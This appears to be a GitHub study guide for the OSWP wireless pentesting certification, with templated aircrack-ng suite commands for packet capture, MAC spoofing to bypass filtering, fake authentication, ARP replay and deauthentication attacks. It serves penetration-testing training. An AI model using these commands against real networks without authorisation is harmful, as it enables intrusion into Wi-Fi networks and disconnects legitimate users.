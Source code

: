 # OSWP

Propietario: Adrian Gisbert Cabello

**OSWP-Study-Guide**

Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

# **Dependencies**

In order to run the following commands, install these frameworks first:

```
sudo apt install airmon-ng reaver hashcat hostapd dnsmasq nftables apache2 libapache2-mod-php freeradius
```

# **Open Network with MAC filtering**

In the event that fake authentication persistently fails, it is plausible that MAC address filtering is being employed. Under such a scheme, the Access Point (AP) will only permit connections from a predefined list of MAC addresses. Should this be the scenario, it will be necessary to acquire a legitimate MAC address by monitoring network traffic with the aid of Airodump-ng. Subsequently, impersonation of this MAC address should be carried out once the corresponding client has disconnected from the network. It is imperative to refrain from initiating a fake authentication attack targeting a specific MAC address if the client remains active on the AP.

**Packet capture**

```
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>
```

**Get your MAC address**

```
macchanger --show <INTERFACE>
```

**Fake authentication attack**

```
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

**ARP replay attack**

```
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>
```

**Deauthentication attack**

```
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>
```
